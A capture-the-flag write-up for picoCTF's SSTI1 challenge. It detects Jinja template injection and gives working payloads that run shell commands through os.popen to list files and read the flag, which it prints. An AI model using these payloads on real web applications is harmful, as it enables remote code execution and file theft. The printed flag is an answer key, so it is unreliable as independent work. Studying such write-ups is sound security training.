






# SSTI1 

https://play.picoctf.org/practice/challenge/492 (SSTI1)

> I made a cool website where you can announce whatever you want! Try it out! 
> I heard templating is a cool and modular way to build web apps! Check out my website

## Steps
1. Given a Web Application Challenge, It's very straight forward looking at the title (SSTI1). However if we have to deduce it from our view, we can check it using Wappalyzer to see what tech stack it was build with. 

It was build using python and most likely a jinja template. We can try a very generic payload to test it. `{{ 7*7 }}` is our payload and it returns 49

2. Now since we are sure its a Jinja Template, we can use our payload to actually execute what we want to get our objective (flag here). 
> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('ls -la').read() }}`

> `{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag').read() }}`

and voila, the flag is 
> `picoCTF{s4rv3r_s1d3_t3mp14t3_1nj3ct10n5_4r3_c001_bcf73b04}`